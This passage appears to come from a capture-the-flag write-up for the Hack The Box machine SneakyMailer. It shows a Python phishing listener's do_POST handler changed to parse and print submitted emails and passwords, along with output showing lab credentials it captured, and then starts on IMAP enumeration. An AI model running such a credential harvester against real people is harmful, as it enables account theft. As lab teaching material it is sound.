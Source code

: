 We can now add a line of code in the `do_POST` method of the handler to parse the data instead of printing the whole body.

```python
    def do_POST(self):
        try:
            [...]
            body = urllib.parse.parse_qs(body)
            print(f"""[+] Parsed mail: {body[b'email'][0].decode()} and password: {body[b'password'][0].decode()}""")
            #print(f"\n[DEBUG] Full body:\n{body}")
            [...]
```

If we now run the script, we get following output:

```python
root@darkness:~# python3 phish.py
[...]
[*] Got POST request from 10.10.10.197...
[+] Parsed mail: paulbyrd@sneakymailer.htb and password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

### IMAP Enumeration

Now that we have a username and password, let us use evolution and setup the email account.

![Email IMAP setup](/assets/htb/SneakyMailer/email-setup-imap.png)

